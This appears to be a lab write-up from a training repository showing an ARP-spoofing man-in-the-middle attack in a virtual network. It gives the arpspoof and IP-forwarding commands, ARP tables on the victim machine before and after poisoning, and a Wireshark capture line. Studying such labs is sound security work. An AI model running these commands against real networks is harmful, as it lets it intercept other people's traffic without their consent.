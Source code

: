 # ARP Spoofing

ARP does not have an authentication mechanism.

```par
Internet --> Gateway --> Victim
                |        ^
                |       /
                |      /
                Hacker/
```

Gateway and Victim update their iptables.

MIM

```par
    Internet --> Gateway    Victim
                    |        ^
                    |       /
                    |      /
pretending to be a router Hacker/
```

Gateway and Victim update their iptables.

```sudo apt-get install dsniff```

arpspoof part of dsniff

## Kali Machine

### Enable ip forwarding

sysctl -w net.ipv4.ip_forward=1
arp Table original

```sh
? (192.168.221.128) at 00:0c:29:a1:09:cb [ether] on eth0
? (192.168.221.2) at 00:50:56:e6:48:53 [ether] on eth0
```

```arp -a```


## Windows Machine

```cmd
Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::c83e:c92d:a70b:4df2%7
   IPv4 Address. . . . . . . . . . . : 192.168.221.128
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.221.2

  Internet Address      Physical Address      Type
  192.168.221.2         00-50-56-e6-48-53     dynamic
  192.168.221.133       00-0c-29-2a-ad-39     dynamic
  192.168.221.254       00-50-56-fd-6e-58     dynamic
  192.168.221.255       ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static
```

```arpspoof -i eth0 -t 192.168.221.128 192.168.221.2```

## MITM Attack Kali Machine

```bash
kali@kali:/mnt/hgfs/Training/EthicalGo/GoHacking/arpspoofing$ arp -a
? (192.168.221.1) at 00:50:56:c0:00:08 [ether] on eth0
? (192.168.221.2) at 00:50:56:e6:48:53 [ether] on eth0
? (192.168.221.254) at 00:50:56:fc:35:79 [ether] on eth0
```

After spoffing Windows arp table

```cmd
Interface: 192.168.221.128 --- 0x7
  Internet Address      Physical Address      Type
  192.168.221.2         00-0c-29-2a-ad-39     dynamic
  192.168.221.133       00-0c-29-2a-ad-39     dynamic
  192.168.221.254       00-50-56-fd-6e-58     dynamic
  192.168.221.255       ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static
```

## Spoof Router

```arpspoof -i eth0 -t 192.168.221.2 192.168.221.128```

## Wireshark capture from Kali machine

```wireshark
199	82.869451813	172.217.165.142	192.168.221.128	ICMP	74	Echo (ping) reply    id=0x0001, seq=55/14080, ttl=127

```

